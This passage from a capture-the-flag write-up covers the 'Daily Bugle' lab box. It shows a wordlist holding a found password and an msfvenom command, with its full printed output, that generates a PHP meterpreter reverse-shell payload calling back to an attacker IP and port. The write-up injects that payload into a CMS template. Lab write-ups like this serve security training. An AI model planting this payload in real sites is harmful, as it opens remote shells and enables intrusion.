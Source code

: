 Additionally, prior to starting an attack, I decided to start a wordlist of the credentials I was finding. On my first attempt I neglected to maintain a wordlist, this seemed like a small omission at the time but I later found it to have caused me a ton of problems.

#### Starting a Wordlist

```bash
root@kali:~/ctf# mkdir wordlists
root@kali:~/ctf# echo 'spiderman123' > wordlists/dailybugle.txt
```

### Catching a shell

It wasn't long before I found a path to the template page that I could inject a php shell into and I generated a php payload using meterpreter.

```bash
root@kali:~/ctf# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.182.144 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
/*<?php /**/ error_reporting(0); $ip = '10.10.182.144'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

![daily bugle shell injection](/images/daily_bugle_http_shell_in_template.png)

